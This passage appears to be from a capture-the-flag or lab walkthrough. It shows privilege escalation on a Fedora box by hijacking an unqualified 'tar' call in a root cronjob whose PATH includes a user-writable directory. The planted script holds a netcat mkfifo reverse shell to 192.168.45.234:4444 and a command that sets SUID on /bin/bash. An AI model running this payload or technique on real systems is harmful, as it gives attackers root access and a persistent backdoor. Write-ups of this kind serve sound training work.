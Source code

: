 Now while enumeration further I checked cronjob file I got this →

```bash
[alfredo@fedora ~]$ crontab -l
no crontab for alfredo
[alfredo@fedora ~]$ cat /etc/crontab
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root

# For details see man 4 crontabs

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name  command to be executed

*/1 * * * * root /usr/local/bin/backup-flask.sh
[alfredo@fedora ~]$
```
{: .nolineno}
{: .nolineno}

Now lets see the `/usr/local/bin/backup-flask.sh` file →

```bash
[alfredo@fedora restapi]$ cat /usr/local/bin/backup-flask.sh
#!/bin/sh
export PATH="/home/alfredo/restapi:$PATH"
cd /home/alfredo/restapi
tar czf /tmp/flask.tar.gz *

[alfredo@fedora restapi]$
```
{: .nolineno}
{: .nolineno}

So I see that the path changes to /home/alfredo/restapi so lets move accordingly , and create a file named as tar with executable permissions and that file show contains this →

```bash
[alfredo@fedora restapi]$ cat tar
#!/bin/bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.234 4444 >/tmp/f
chmod u+s /bin/bash
[alfredo@fedora restapi]$
```
{: .nolineno}
{: .nolineno}
